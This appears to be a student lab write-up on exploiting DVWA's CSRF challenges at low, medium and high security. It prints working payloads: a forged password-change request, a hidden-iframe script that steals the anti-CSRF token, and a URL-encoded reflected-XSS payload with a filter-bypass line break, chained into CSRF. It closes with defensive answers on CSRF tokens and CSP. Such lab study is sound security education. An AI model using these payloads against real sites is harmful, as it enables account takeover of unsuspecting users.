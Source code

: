 # Tutorial 9: Client-Side Web Vulnerabilities (Part 2)

## Cross-site request forgery vulnerabilities in DVWA

Our goal is to exploit the vulnerabilities in the **CSRF** category of `dvwa`. We want to create a website that, if the user visits, will change their password to the current security level without their knowledge or permission.

#### *Security Level: low*

To first figure out how to perform a CSRF attack, we need to see how the password is actually changed. In our network view, we see the following GET request is made:
```
http://10.6.66.42/dvwa/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change
```

This matches the PHP code:
```PHP
if( isset( $_GET[ 'Change' ] ) ) {
// Get input
$pass_new  = $_GET[ 'password_new' ];
$pass_conf = $_GET[ 'password_conf' ];
}
```
If all of these fields are set correctly, the password is updated.

This means that our evil website simply needs to send the appropriate get request to the dvwa endpoint, and if the user is authenticated, it should change the password.

My first instinct was to use the `fetch()` function like in tutorial 7. However, when looking at the network view when loading our [evil webpage](low.html), we get a 302 error with a CORS Missing Allow Origin. This essentially means that `dvwa`'s response doesn't have the required `Access-Control-Allow-Origin` header, which is used to determine whether or not the resource can be accessed by content operating within the current region. However, if you access the url above using the `src` attribute, we don't get this error. This is becauses the corss-origin sharing standard does not include [`img` tags](https://stackoverflow.com/questions/47978252/how-img-tag-gets-content-over-cors-headers).

After opening up the payload in our browser, when we try to log back in we can see that the password has changed.

#### *Security Level: medium*

In this level, the following check has been added:
```PHP
// Checks to see where the request came from
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ])!=-1 )
```
`stripos` returns the position where the name of the server host under which the current script is executing (`$_SERVER[ 'SERVER_NAME' ]`) exists inside the address of the page (if any) which referred the user agent to the current page (`$_SERVER[ 'HTTP_REFERER' ]`). If the `HTTP_REFERER` is not found, the function returns `false`. The issue is that the webpage checks that the result `!= -1`. This means that even if the string is not found, the check returns true since `false != -1` returns `true`.

This means that this difficulty is effectively the same as the previous level, and the exact same payyload can be used.

#### *Security Level: high*

In this level, the following check is used instead:
```PHP
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
```
The `checkToken` function seems to be one that is locally defined somehwere. After trying the same payload for medium, I was redirected to `index.php`, which leads me to believe that this function essentially checks that the `user_token` in the GET request matches the `session_token`, and if they don't you are redirected to `index.php`. We essentially need to get the `session_token`, which seems to be created by `generateSessionToken();` at the bottom of the PHP script. If we check the source code for the webpage, we can see that the `user_token` is actually embedded in the webpage:
```html
<input type="hidden" name="user_token" value="ede42a723132328bf807ab0596238d7a">
```
We therefore need a way to get the the token from the webpage, then include it in our GET request to change the username. As seen in the *low* category, we are unable to make requests to `dvwa` directly. However, we can load the page in an `<iframe>`, which we can then examine for the CSRF token:
```html
<iframe id="csrf_vuln" src="http://10.6.66.42/dvwa/vulnerabilities/csrf/" style="visibility: hidden;" onload="payload()">
</iframe>
<script>
function payload() {
  var iframe = document.getElementById('csrf_vuln'); // Gets the iframe from the DOM
  var doc = iframe.contentWindow.document; // Gets the content inside the iframe
  var token = doc.getElementsByName('user_token')[0].value; // Gets all elements with the name "user_token", looks at the first one and takes its value field

  const http = new XMLHttpRequest();
  const url = 'http://10.6.66.42/dvwa/vulnerabilities/csrf/?password_new=high&password_conf=high&Change=Change&user_token='+token; // Embed token in our request
  http.open('GET', url);
  http.send(); // Send request
}
</script>
```
The HTML code above does exactly this, loading the webpage into a hidden `<iframe>` and ef we xecuting a payload. However, if we try opening this file in our browser ([high_payload.html](high_payload.html)), we notice the following error in our console:
```
Uncaught DOMException: Permission denied to access property "document" on cross-origin object
```
Essentially, since our page has a different origin to `dvwa`, we cannot access the the content inside the iframe (the `doc` variable), meaning that in order for this to work this must be done from dvwa's origin. There are 2 ways (that I could think of) to do this:
- Upload the malicious website to `dvwa` through the **file upload** vulnerability, and redirect users who visit our malicious webpage to it.
- Exploit the **XSS (reflected)** vulnerability by encoding the payload inside the URL, and make our webpage fetch this vulnerable url.

I opted for the second option, since I couldn't be bothered to figure out how to upload an html file on *high* difficulty (and it felt like cheating to lower the difficulty to upload the file). Also, using XSS is more elegant in my opinion since it only requries 1 website. To perform this XSS attack, I needed to rewrite my payload in a format where it would pass the filters on the *high* difficulty:
```html
<iframe id="csrf_vuln" src="http://10.6.66.42/dvwa/vulnerabilities/csrf/" style="visibility: hidden;" onload="var iframe = document.getElementById('csrf_vuln'); var doc = iframe.contentWindow.document; var token = doc.getElementsByName('user_token')[0].value; const http = new XMLHttpRequest(); const url = 'http://10.6.66.42/dvwa/vulnerabilities/csrf/?password_new=high&password_conf=high&Change=Change&user_token='+token; http.open('GET', url); http.send();"></iframe>
```
Like in [tutorial 7](../tutorial_7/notes.md), I needed to add a line break in the url encoding of the payload to stop it from being filtered by the regex. Once this was done, our payload was ready:
```
http://10.6.66.42/dvwa/vulnerabilities/xss_r/?name=%3Ciframe+id%3D%22csrf_vuln%22+src%3D%22http%3A%2F%2F10.6.66.42%2Fdvwa%2Fvulnerabilities%2Fcsrf%2F%22+style%3D%22visibility%3A+hidden%3B%22+onload%3D%22var+iframe+%3D+document.getElementById(%27csrf_vuln%27)%3B%0A+var+doc+%3D+iframe.contentWindow.document%3B+var+token+%3D+doc.getElementsByName(%27user_token%27)%5B0%5D.value%3B+const+http+%3D+new+XMLHttpRequest()%3B+const+url+%3D+%27http%3A%2F%2F10.6.66.42%2Fdvwa%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3Dhigh%26password_conf%3Dhigh%26Change%3DChange%26user_token%3D%27%2Btoken%3B+http.open(%27GET%27%2C+url)%3B+http.send()%3B%22%3E%3C%2Fiframe%3E
```
I first tested this by opening this link in a new tab, which caused my password to be changed. Now, all we need to do is ensure that our malicious webpage accesses this link, so I created a hidden `<iframe>` which performs the GET request to our payload url:
```html
<iframe src="http://10.6.66.42/dvwa/vulnerabilities/xss_r/?name=%3Ciframe+id%3D%22csrf_vuln%22+src%3D%22http%3A%2F%2F10.6.66.42%2Fdvwa%2Fvulnerabilities%2Fcsrf%2F%22+style%3D%22visibility%3A+hidden%3B%22+onload%3D%22var+iframe+%3D+document.getElementById(%27csrf_vuln%27)%3B%0A+var+doc+%3D+iframe.contentWindow.document%3B+var+token+%3D+doc.getElementsByName(%27user_token%27)%5B0%5D.value%3B+const+http+%3D+new+XMLHttpRequest()%3B+const+url+%3D+%27http%3A%2F%2F10.6.66.42%2Fdvwa%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3Dhigh%26password_conf%3Dhigh%26Change%3DChange%26user_token%3D%27%2Btoken%3B+http.open(%27GET%27%2C+url)%3B+http.send()%3B%22%3E%3C%2Fiframe%3E", style="visibility: hidden;">
</iframe>
```
Another option is to redirect our user to the payload url using a `<meta>` tag in the header, but this means that the user can see that they've been redirected, which might be a little *sus*. If we now open our [evil webpage](high.html), all the relevent network requests are made, with our XXS attack triggering a CSRF attack which sets the user's password to 'high'!

### Questions
1. In the *easy* difficulty, there is no attempt to prevent CSRF. The attempts to prevent if in the other levels are on line 5:
  - *Medium level:* The faulty if-statement was covered in it's section. However, if it worked as intended it could still easily be bypassed (e.g. with the use of an iframe). Furthermore, the server name could appear anywhere in the referring url, and doesn't even need to be the origin to bypass the filter.
  - *High level:* The anti-CSRF token is static and per-user, allowing it to be stolen (using another exploit in DVWA) and reused in a CSRF exploit at any later time.

2. These vulnerabilites could be solved with the correct implementation of an anti-CSRF token, or requiring the user to correctly supply some authenticating information (e.g. their current password) before performing the password change.

## A content security policy for DVWA

I didn't have the time to go through this properly. Sorry :(

Basically just have a look through the different CSP headers.

### Questions
1. DVWA's HTML output contains inline scripts (e.g. `onclick` attributes), meaning that the `Content-Security-Policy` HTTP header must contain the directive `script-src 'unsafe-inline'`. Unfortunately, this also permits injected scripts (e.g. those present as a result of a successful XSS attack) to execute in the browser, thus unermining the conotent security policy's effectiveness.
2. All inline scripts should be removed from DVWA and replaced with code in an external script that modifies the DOM (e.g. inline event listeners for elements that have them should be replaced with calls to `addEventListener()` on the target element). This external script should then be hosted on a seperate high-security trusted origin (e.g. `http://10.6.66.43`), and the CSP can mandate that the browser should only execute scripts originating from this origin (e.g. `script-src http://10.6.66.43`). Ideally, the use of `eval()` should also be eradicated from DVWA's JavasScript code after it has been refactored, so that the `script-src` directive need not contain `unsafe-eval`.
